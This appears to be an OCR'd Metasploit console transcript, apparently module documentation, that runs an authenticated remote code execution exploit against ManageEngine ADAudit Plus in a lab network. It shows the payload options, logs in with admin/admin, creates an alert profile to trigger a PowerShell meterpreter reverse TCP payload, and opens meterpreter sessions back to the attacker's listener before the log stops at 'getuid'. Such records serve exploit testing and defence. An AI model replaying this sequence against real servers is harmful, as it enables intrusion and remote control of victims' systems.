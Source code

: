 ```


Payload options (cmd/windows/powershell_reverse_tcp):

Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
LHOST         192.168.204.128  yes       The listen address (an interface may be specified)
LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
LPORT         4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > set payload cmd/windows/powershell/x64/meterpreter/reverse_tcp
payload => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.204.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias DAFOREST.
[*] Attempting to authenticate to ADAuditPlus Authentication with username: admin and password: admin
[*] Found 1 configured domain(s): daforest.com
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 6077
[*] Attempting to create an alert profile
[+] Successfully created alert profile iEQnR24qE9n1
[*] Attempting to trigger the payload via an authentication attempt for domain DAFOREST using incorrect credentials.
[*] Received expected reply when trying to trigger the payload. Let's hope we get a shell...
[*] Sending stage (200774 bytes) to 192.168.204.132
[*] Sending stage (200774 bytes) to 192.168.204.132
[-] Failed to load extension: uninitialized constant Rex::Post::Meterpreter::Extensions::Stdapi::Stdapi
WARNING: Local file /home/gwillcox/git/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[!] If the client portion of stdapi or priv fails to load, you can do so manually via 'load stdapi' and/or load priv'
[*] Meterpreter session 4 opened (192.168.204.128:4444 -> 192.168.204.132:62858) at 2023-05-04 19:45:48 -0500
[*] Attempting to delete alert profile iEQnR24qE9n1
[*] Meterpreter session 3 opened (192.168.204.128:4444 -> 192.168.204.132:62857) at 2023-05-04 19:45:48 -0500
[+] Successfully deleted alert profile iEQnR24qE9n1

meterpreter > load stdapi
Loading extension stdapi...Success.
meterpreter > load priv
[!] The "priv" extension has already been loaded.
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
```
